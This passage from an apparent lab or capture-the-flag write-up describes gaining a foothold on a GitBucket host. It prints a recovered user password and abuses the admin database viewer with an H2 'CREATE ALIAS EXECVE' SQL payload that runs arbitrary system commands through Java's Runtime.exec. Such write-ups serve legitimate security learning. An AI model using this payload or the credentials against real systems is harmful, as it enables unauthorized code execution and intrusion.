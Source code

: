 ```c
userlist AuthUsers
        user margo insecure-password vFr&cS2#0!
```

| Username | Password   |
| -------- | ---------- |
| margo    | vFr&cS2#0! |

## Foothold

Since we could not get the `command injection` to work we enumerated the `GitBucket` application a little more and found a `Database viewer` in the `System administration` section of the `admin` user.

![](images/2024-09-14_22-41_8080_database_viewer.png)

This allowed us to execute `arbitrary commands` on the box and therefore get `code execution`.

- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/h2-java-sql-database](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/h2-java-sql-database)
- [https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)

```c
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : ""; }$$;
```
